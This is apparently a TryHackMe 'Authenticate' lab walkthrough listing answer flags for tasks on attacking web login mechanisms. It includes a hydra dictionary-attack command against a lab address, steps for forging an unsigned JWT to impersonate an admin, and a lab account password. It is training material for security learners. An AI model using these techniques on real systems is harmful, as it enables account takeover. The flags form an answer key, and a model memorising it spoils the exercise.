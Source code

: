 # Authenticate

Learn how to attack authentication mechanisms used in web applications
# TryHackMe - Authenticate

## Task 1  Deploy the VM

###  - Deploy the VM

## Task 2  Dictionary attack

###  - What is the flag you found after logging as Jack?

`fad9ddc1feebd9e9bca05f02dd89e271`

###  - Now try the same thing for username mike.

###  - What is the flag you found after logging as Mike?

hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.226.198 -s 8888 http-post-form "/login:user=mike&password=^PASS^:Invalid username or password"

`e1faaa144df2f24aa0a9284f4a5bb578`

## Task 3  Re-registration

###  - What is the flag that you found in darren's account?

`fe86079416a21a3c99937fea8874b667`

###  - Now try to do the same trick and see if you can login as arthur.

###  - What is the flag that you found in arthur's account?

`d9ac0f7db4fda460ac3edeb75d75e16e`

## Task 4  JSON Web Token

###  - Use the same method to find identity of admin user and retrieve the flag?

Capture the JWT token. Decode each section of the JWT individually. Remember when encoding to add a new line after each json {}. Leave the signature blank and forward. 

`92498880383088033228`

## Task 5  No Auth

###  - Find the way to get into superadmin ad

Login as admin. Navigate to the 0 url once logged in. 

###  - What is the password for superadmin account?

`abcd1234`

###  - What is the flag you found in superadmin account?

`72102933396288983011`
